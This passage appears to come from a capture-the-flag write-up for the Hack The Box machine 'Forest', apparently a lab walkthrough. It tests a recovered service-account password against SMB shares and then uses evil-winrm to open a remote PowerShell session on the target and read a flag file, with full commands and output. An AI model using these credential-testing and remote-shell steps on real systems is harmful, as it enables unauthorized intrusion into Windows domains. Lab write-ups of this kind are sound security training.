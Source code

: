 We have **svc-alfresco:s3rvice** credential pair. Let's test it and its permissions to SMB and at the same time see if these credentials are valid while enumerating what it has access to (I could've used *smbmap* too).


### SMBCLIENT
```
root@kali:~/Documents/HTB-Labs/Forest# smbclient -L //forest.htb/ -U 'HTB\svc-alfresco'
Enter HTB\svc-alfresco's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
root@kali:~/Documents/HTB-Labs/Forest# smbclient //forest.htb/C$ -U 'HTB\svc-alfresco'
Enter HTB\svc-alfresco's password: 
tree connect failed: NT_STATUS_ACCESS_DENIED
```

Looks like I can enumerate shares but I do not have permissions to C$ Share through SMB. Let's try to test credentials/gain access through WinRM. To do this, you need to have [evil-winrm](https://github.com/Hackplayers/evil-winrm) installed. Worth going through its documentation as it is one of many other tools that are very versatile.


### EVIL-WINRM
```
root@kali:~/Documents/HTB-Labs/Forest# evil-winrm -i forest.htb -u svc-alfresco -p 's3rvice' -s ./ps1_scripts/ -e ./exe_files/

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> ls


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
-ar---        9/23/2019   2:16 PM             32 user.txt                                                                                                                                                                                                


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
e5e4e**********************0d9ed
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> 
```
